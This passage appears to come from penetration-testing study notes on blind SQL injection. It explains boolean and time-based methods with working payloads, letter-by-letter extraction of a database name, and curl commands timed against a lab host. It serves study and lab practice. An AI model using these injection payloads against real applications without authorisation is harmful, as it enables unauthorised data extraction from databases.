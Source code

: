 This requires file write permissions in the database and on disk.
It may throw an error when executing the query, but
the file can still be written to disk. Check to see.

MySQL and MSSQL have other code execution possibilities as well. Refer to those sections.


#### 4.5.3.2. Blind SQLi

Two types of attack methods: boolean and time-based.
Boolean requires (visible) change in output on success vs. failure.
Time-based uses injected sleep on success to detect it.

Boolean:
Use AND operator to test if pre-condition is true. Base primitive:

```
' and 1=1 -- #
```

Then you build out what you know by brute force. Example: given you know 'admin'
user is in database, you can build query to determine database name one letter
at a time, watching for when 'admin' is in output or not:

```
# database name 'offsec'
admin' and database() like 'o%' and 1=1 -- #  <-- succeeds
admin' and database() like 'p%' and 1=1 -- #  <-- fails

# more complex, using binary search for ascii values at each position
admin' and substr(database(),2,1)<'f' and 1=1 -- #
```

Time-based:
Inject sleep call after AND operator that tests if condition is true. Base primitive, causing 3 second sleep on success:

```
' AND IF (1=1, sleep(3),'false') -- #
```

Example (using time utility helps measure difference):

```sh
# success is slow (offsec user found in lookup)
❯ time curl -s "http://192.168.201.16/blindsqli.php?user=$(urlencode "offsec' AND IF (1=1, sleep(1),'false') -- #")" &> /dev/null
curl -s  &> /dev/null  0.02s user 0.00s system 1% cpu 2.258 total
#                                                     ^^^^^

# failure is fast
❯ time curl -s "http://192.168.201.16/blindsqli.php?user=$(urlencode "NOPE' AND IF (1=1, sleep(1),'false') -- #")" &> /dev/null
curl -s  &> /dev/null  0.01s user 0.01s system 14% cpu 0.180 total
#                                                      ^^^^^
```


